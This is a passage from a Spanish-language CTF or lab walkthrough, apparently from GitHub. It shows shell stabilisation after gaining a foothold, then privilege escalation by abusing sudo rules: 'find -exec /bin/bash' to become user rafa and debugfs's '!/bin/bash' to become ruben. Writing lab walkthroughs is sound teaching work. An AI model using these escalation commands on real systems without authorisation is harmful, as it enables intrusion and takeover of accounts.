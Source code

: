 ### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 454dd5633d8b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 454dd5633d8b:
    (rafa) NOPASSWD: /usr/bin/find
```

Vemos que podremos ejecutar el binario `find` como el usuario `rafa`, por lo que haremos lo siguiente:

```shell
sudo -u rafa find . -exec /bin/bash \; -quit
```

Con esto seremos el usuario `rafa`.

## Escalate user ruben

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for rafa on 454dd5633d8b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rafa may run the following commands on 454dd5633d8b:
    (ruben) NOPASSWD: /usr/sbin/debugfs
```

Vemos que podemos ejecutar el binario `debugfs` como el usuario `ruben`, por lo que haremos lo siguiente:

```shell
sudo -u ruben debugfs
!/bin/bash
```
